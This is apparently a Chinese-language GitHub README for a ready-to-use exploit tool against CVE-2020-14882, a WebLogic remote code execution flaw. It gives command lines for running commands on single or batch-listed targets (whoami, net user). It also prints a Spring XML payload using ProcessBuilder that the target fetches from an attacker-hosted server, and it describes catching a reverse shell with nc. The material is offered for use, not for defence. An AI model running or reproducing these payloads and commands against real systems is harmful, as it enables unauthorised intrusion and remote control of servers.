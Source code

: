 # CVE-2020-14882 RCE 漏洞
>CVE-2020-14882_ALL综合利用工具，支持命令回显检测、批量命令回显、外置xml无回显命令执行等功能。
>
>需要模块：requests、http.client


### 选项

![](./images/1.png)

### 功能一：命令回显
python3 CVE-2020-14882_ALL.py -u http://1.1.1.1:7001 -c "net user"

![](./images/2.png)

python3 CVE-2020-14882_ALL.py -u http://1.1.1.1:7001 -c "whoami"

![](./images/3.png)

### 功能二：批量命令回显
```shell script
python3 CVE-2020-14882_ALL.py -f target.txt -c "whoami"
```
> target.txt 格式：http://x.x.x.x:xx，一行一个。

![](./images/4.png)

### 功能三：外置xml文件无回显命令执行
1. Linux反弹shell为例，编辑好poc.xml文件，开启python监听。  

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
	<value>cmd</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

开启python监听。  
![](./images/5.png)

nc开启监听。  
![](./images/6.png)

2. 使用-x选项指定xml文件路径，发送payload。  
```shell script
python3 CVE-2020-14882_ALL.py -u http://xxxx:7001 -x http://xxx:8000/poc.xml
```
![](./images/7.png)  
3. 成功接收shell。  
![](./images/8.png)

